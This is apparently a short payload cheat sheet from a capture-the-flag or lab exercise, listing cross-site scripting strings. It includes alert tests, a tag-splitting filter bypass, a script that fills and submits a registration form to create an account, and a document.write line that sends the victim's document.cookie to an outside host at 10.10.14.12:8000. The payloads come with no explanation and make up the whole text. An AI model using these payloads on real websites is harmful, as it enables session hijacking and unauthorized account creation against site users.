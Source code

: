 # Payloads

  1. `<script>alert(1)<script>`
  2. `<scrscriptipt>alert(1)</scr/scriptipt>`


  

## Exploits
   
   1.  
	     `<script>document.links[0].click();document.getElementsByName('username').value="foo";`
	     `document.getElementsByName('password').value="foo";document.getElementsByName('password2').value="foo";document.forms[0].submit()</script>`
	     `<a href="http://localhost/newUser?username=test&password=test&password2=test">clickme</a>`  


   2. 

         `document.write('<img src="http://10.10.14.12:8000/?'+document.cookie+'">');`